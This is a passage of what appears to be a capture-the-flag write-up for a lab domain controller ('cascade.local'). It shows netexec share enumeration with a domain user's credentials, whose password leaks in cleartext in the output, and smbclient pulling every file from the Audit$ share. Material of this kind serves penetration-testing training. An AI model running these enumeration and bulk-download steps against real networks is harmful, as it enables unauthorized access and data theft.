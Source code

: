 ```bash
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

This user seems to have access to the `Audit` share:

```bash
# check share access
$ nxc smb 10.10.10.182 -u 's.smith' -p 's<REDACTED>2' --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ
<SNIP>

# connect to the share and download readable files
$ smbclient -U s.smith //10.10.10.182/Audit$
Password for [WORKGROUP\s.smith]:
Try "help" to get a list of possible commands.
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
getting file \CascAudit.exe of size 13312 as CascAudit.exe (89.7 KiloBytes/sec) (average 89.7 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (103.4 KiloBytes/sec) (average 95.8 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.4 KiloBytes/sec) (average 67.9 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (1606.3 KiloBytes/sec) (average 644.1 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (1471.8 KiloBytes/sec) (average 787.9 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as DB/Audit.db (187.5 KiloBytes/sec) (average 696.6 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as x64/SQLite.Interop.dll (6483.8 KiloBytes/sec) (average 2009.2 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as x86/SQLite.Interop.dll (1447.7 KiloBytes/sec) (average 1764.5 KiloBytes/sec)
smb: \> exit

# check directory structure
$ tree
.
├── CascAudit.exe
├── CascCrypto.dll
├── DB
│   └── Audit.db
├── RunAudit.bat
├── System.Data.SQLite.dll
├── System.Data.SQLite.EF6.dll
├── x64
│   └── SQLite.Interop.dll
└── x86
    └── SQLite.Interop.dll
```
